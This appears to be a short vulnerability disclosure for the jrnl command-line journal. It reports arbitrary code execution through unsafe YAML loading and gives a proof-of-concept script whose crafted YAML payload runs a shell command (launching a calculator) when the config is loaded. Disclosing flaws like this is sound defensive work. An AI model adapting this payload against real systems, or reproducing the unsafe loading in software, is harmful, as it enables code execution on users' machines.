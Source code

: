 # Description

`jrnl` is a simple journal application for the command line., which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip install jrnl
```

### Run exploit.py
```
import os
#os.sysem('pip3 install jrnl')
from jrnl import config
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
config.load_config('config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
